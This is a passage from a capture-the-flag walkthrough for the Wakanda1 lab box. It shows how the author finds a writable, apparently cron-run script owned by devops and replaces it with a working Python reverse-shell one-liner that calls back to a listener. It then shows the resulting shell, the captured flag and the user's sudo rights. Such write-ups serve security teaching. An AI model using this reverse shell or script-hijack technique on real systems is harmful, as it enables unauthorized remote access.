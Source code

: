 ### Obtain flag2.txt

I bet we have to gain access to the system as `devops`. Let's find files which are owned by this user:

```
$ find / -user devops 2>/dev/null
/srv/.antivirus.py
/tmp/test
/home/devops
/home/devops/.bashrc
/home/devops/.profile
/home/devops/.bash_logout
/home/devops/flag2.txt
$ find / -user devops -writable 2>/dev/null
/srv/.antivirus.py
```

First command shows which files are owned by user `devops`. The second one shows which are owned by the user and which are writeable by the current user. `2>/dev/null` suppresses any error, like "*Permission denied*".

```shell
$ cat /srv/.antivirus.py
open('/tmp/test','w').write('test')
```

This looks like it's periodically executed (as of my experience from CTF boxes). Building a reverse shell with it: (I checked if `nc` is installed and if it allows the parameter `-e`)

```shell
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.20.138",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /srv/.antivirus.py
```
Listen to it: `nc -lvnp 4444` (on your local machine). And then wait... (mostly ~15min, maybe it is really a cronjob. If not :sob:)

```shell
listening on [any] 4444 ...
connect to [10.20.20.138] from (UNKNOWN) [10.20.20.128] 41727
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
$ ls -al /home/devops
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
$ cat /home/devops/flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
$ sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```
